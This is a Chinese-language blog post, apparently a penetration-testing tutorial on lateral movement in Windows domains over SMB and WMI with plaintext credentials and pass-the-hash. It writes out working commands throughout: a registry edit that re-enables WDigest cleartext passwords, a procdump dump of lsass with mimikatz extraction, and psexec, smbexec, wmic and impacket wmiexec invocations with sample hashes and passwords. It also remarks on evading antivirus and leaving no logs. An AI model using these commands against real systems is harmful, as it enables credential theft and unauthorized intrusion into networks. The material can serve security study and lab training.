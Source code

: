 ```yaml
---
layout: post
title: "内网渗透-smb&wmi明文&hash传递"
date: "2023-01-07T04:19:11.827Z"
---
```

内网渗透-smb&wmi明文&hash传递
=====================

首先我们要知道，在windows2012以上版本默认会关闭wdigest，那么攻击者就无法从内存中获取明文密码了

windows2012以下的版本如果安装了KB2871997补丁，那么同样也会导致无法从内存中获取明文密码

windows系统LM Hash以及NTLM Hash加密算法，个人系统在Windows vista后，服务器系统在winserver2003之后，认证方式均为NTLM Hash

针对以上的情况，有四种方式可以解决：

1、利用哈希传递（pth，ptk等）进行移动

2、利用其他的服务协议（smb，wmi等）进行哈希移动

3、利用注册表操作开启Wdigest Auth值进行获取

reg add
HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f

4、利用工具或者第三方平台（hashcat）进行破解获取

（1）Procdump+Mimikatz 配合获取

因为Procdump是微软官方的一个程序，所以不会被杀软给识别，那么就可以使用procdump备份密码然后到本地使用minikatz进行读取

Procdump上执行：procdump -accepteula -ma lsass.exe lsass.dmp

mimikatz 上执行： sekurlsa::minidump lsass.dmp

　　　　　　　　  sekurlsa::logonPasswords full

 如果拿到了hash值，那么就可以使用hashcat去破解

（2）域横向移动SMB服务利用-psexec，smbexec（官方自带）

利用SMB服务可以通过明文或者hash传递来远程执行，条件是445服务端口开放

1）psexec的使用

1.先建立IPC回话，然后使用SMB服务

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201652523-1256473322.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106201757980-1398161473.png)

 2.直接使用明文连接不需要IPC连接

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202005320-1960398768.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202023428-1152560980.png)

 （3）如果没有明文密码，但是拿到了密码的hash值，也可以通过pstool进行连接，但是需要使用的是impacket中的psexec，因为是第三方开发的工具，所以可能会被杀软识别，因此只能看情况去使用

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106202552952-82039936.png)

 2）smbexec的使用

smbexec无需建立ipc的连接，可以使用明文或者hash的传递，但是smbexec是第三方软件同样需要先做免杀才可以，以下是一些使用方法的示例

smbexec god/administrator:Admin12345@192.168.3.21　　连接god域中的administrator用户

smbexec ./administrator:admin!@#45@192.168.3.32　　　 连接本地的administrator用户

hash方法的话需要在minikatz中找到对应用户的密码hash值的NTLM或者LM值，具体使用哪个得看操作系统的版本。

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106203913331-576896792.png)

 然后在使用以下的命令

smbexec -hashes :$HASH$ ./admin@192.168.3.21

smbbexec -hashes :$HASH$ domain/admin@192.168.3.21

smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32

smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21

（3）域横向移动 WMI 服务利用-cscript,wmiexec,wmic

WMI(Windows Management Instrumentation) 是通过 135 端口进行利用，支持用户名明文或者 hash 的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

自带WMIC　　只能进行明文传递　　无回显

wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\\1.txt"

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205009189-196008115.png)

 ![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205023015-1817583004.png)

自带 cscript 　　只能进行明文传递 　　有回显　　但是需要借助一个叫做wmiexec.vbs的文件进行操作![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205202287-1794763031.png)

cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205227167-1600059684.png)

套件 impacket wmiexec 明文或 hash 传递 有回显 exe 版本

wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"　　本地主机账户

wmiexec god/administrator:Admin12345@192.168.3.21 "whoami"　　域账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205352100-1485594123.png)

wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"　　本地主机账户

wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"　　域主机账户

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205444975-293601675.png)

 所以综上所述：

![](https://img2023.cnblogs.com/blog/1734450/202301/1734450-20230106205812720-2112335278.png)